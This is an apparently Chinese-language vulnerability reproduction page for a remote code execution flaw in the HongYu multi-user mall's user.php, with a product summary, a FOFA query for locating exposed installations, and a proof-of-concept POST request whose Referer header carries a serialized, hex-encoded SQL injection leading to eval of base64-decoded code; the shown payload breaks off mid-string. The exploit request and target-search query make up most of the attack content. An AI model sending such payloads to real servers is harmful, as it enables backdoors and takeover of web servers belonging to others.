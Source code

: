 
# 鸿宇多用户商城user.php RCE漏洞复现

### 0x01 产品简介

   鸿宇多用户商城是一款支持各行业的多商家入驻型电商平台系统,商家版APP,微信商城,小程序及各种主流营销模块应有尽有,是一个功能强大的电子商务平台，旨在为企业和个人提供全面的在线购物解决方案。

### 0x02 漏洞概述

  鸿宇多用户商城 user.php 存在任意命令执行漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

### 0x03 复现环境

FOFA：body="content=HongYuJD" && body="68ecshopcom\_360buy"

![](assets/1701746429-4b9f48d4c3e0362ec3935f32449a1105.png)

### 0x04 漏洞复现 

PoC

```cobol
POST /user.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:233:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b6576616c09286261736536345f6465636f64650928275a585a686243
```
